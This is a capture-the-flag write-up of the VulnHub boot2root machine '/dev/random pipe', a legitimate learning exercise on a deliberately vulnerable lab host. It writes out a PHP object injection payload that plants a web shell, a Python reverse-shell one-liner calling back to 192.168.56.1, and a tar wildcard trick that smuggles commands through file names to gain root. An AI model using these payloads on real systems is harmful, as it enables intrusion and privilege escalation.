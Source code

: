 ### /dev/random pipe boot2root 

( sorry again for how this looks...need to fix it up)
  
  /dev/random pipe is a boot2root from vulnhub.com
  
  #STEP 1: machine finger-printing:
      - nmap -sT -V -A -p 1-65535 [vm-ip]
      
      It was found that ports 22,80, 111, and 40496. The only interesting one right now being 80.
  
  #STEP 2 : visiting the web page:
      Upon visiting the index, I saw I was requested to login with Http Basic Auth. I inspected the requests 
      and responses with BurpSuite, but didn't see anything out of the ordinary. So I attempted to start
      a brute force. With no luck, I turned to the walkthrough to find that if I created a request with a
      fake HTTP method, like GETS to /index.php, it bypassed the authentication.
  
  #STEP 3: directory enumeration:
      Using dirbuster, I was able to find a few interesting directories: /images and /scriptz. I was
      slightly confused at first until I saw the request made being made when clicking on "Show Artist Info", 
      and saw the param being passed. It was a serialized PHP object, and noticing the Log class in the file
      under log.php.BAK, I instantly thought PHP Object Injection:
  
  #STEP 4: PHP Object Injection (PHP Shell):
       - O:3:"Log":2:{s:8:"filename";s:27:"/var/www/html/images/hs.php";s:4:"data";s:38:"<?php print shell_exec($_GET['c']); ?>";}
      Once urlencoded and passed as "param" I saw my file hs.php appeard in /images
  
  #STEP 5: Reverse Shell:
      All that was left was to run a python reverse shell: 
      - python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.1",6000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

  #STEP 6: Moving around as user www-data:
      So I did the usual scanning for local privalage escalation. However, nothing popped out. There was one strange thing.
      I kept on seeing backup files appear in /home/rene every couple of minute, and I thought ... cronjob. I eventually glossed
      over a walkthrough and saw the term "tar wildcard exploit" which led me in the right direction to find the following exploit:
  
  #STEP 7: Getting /root/flag.txt:    
      - cd /home/rene/backup
      - touch -- "--checkpoint=1"
      - touch -- "--checkpoint-action=exec=sh shell.sh"
      - echo "cat /root/flag.txt > /home/rene/flag && chmod 777 /home/rene/flag" > shell.sh
      and then wait for /home/rene/flag to appear.
      
    Overall it was quite an interesting ctf, especially the last part for reading the flag. Thanks!

